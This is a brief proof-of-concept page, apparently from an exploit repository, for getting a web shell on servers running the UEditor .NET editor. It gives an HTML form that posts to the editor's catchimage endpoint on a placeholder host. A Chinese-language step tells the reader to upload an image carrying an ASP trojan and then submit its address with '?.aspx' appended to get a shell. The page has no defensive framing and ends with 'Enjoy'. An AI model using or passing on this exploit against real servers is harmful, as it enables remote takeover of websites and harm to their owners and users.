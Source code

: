 # Ueditor .net GetShell

## POC

```html
<form action="http://xxxxxxxxx/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
<p>shell addr:<input type="text" name="source[]" /></p >
<inputtype="submit" value="Submit" />
</form>
```
**先上传一张包含asp木马的正常图片，之后在shell addr中填入该图片的地址并在末尾加入?.aspx，如xxx.jpg?.aspx，提交后即可getshell**
## Enjoy
